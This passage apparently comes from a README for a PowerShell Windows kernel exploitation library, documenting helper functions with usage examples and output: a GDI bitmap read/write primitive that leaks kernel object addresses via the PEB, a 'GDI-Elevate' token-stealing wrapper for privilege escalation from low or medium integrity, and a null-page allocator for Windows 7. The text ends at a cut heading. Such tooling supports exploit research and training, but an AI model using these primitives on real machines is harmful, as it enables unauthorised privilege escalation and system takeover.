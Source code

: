 Universal x32/x64 Bitmap leak using PEB.

Targets: 7, 8, 8.1, 10

```
C:\PS> Stage-BitmapReadWrite

ManagerpvScan0       : -7692227456944
WorkerHandleTable    : 767454567328
ManagerKernelObj     : -7692227457024
PEB                  : 8757247991808
WorkerpvScan0        : -7692227415984
ManagerHandle        : -737866269
WorkerHandle         : 2080706172
GdiSharedHandleTable : 767454478336
ManagerHandleTable   : 767454563656
WorkerKernelObj      : -7692227416064

C:\PS> $BitMapObject = Stage-BitmapReadWrite
C:\PS> "{0:X}" -f $BitMapObject.ManagerKernelObj
FFFFF9010320F000
```

### GDI-Elevate

A token stealing wrapper for x32/64 which ingests a handle to a manager and worker GDI object.

Note that this function has two methods, if supplied with a pointer to an arbitrary tagTHREADINFO object it can elevate the current process from low integrity. Without the tagTHREADINFO pointer it relies on NtQuerySystemInformation (Get-LoadedModules) to leak the base address of the ntkernel which requires medium integrity on Win8.1+.

```
# MedIL token theft
C:\PS> GDI-Elevate -GDIManager $ManagerBitmap.BitmapHandle -GDIWorker $WorkerBitmap.BitmapHandle -GDIType Bitmap

# LowIL token theft
C:\PS> GDI-Elevate -GDIManager $ManagerPalette.PaletteHandle -GDIWorker $WorkerPalette.PaletteHandle -GDIType Palette -ThreadInfo $ManagerPalette.tagTHREADINFO

```

### Alloc-NullPage

Wrapper to allocate the process null page on Win 7 32bit.

```
# Read
PS C:\> $NullPage = Alloc-NullPage -Bytes 1024
PS C:\> if ($NullPage -eq $true) {...} else {...}
```

### Get-SyscallDelegate
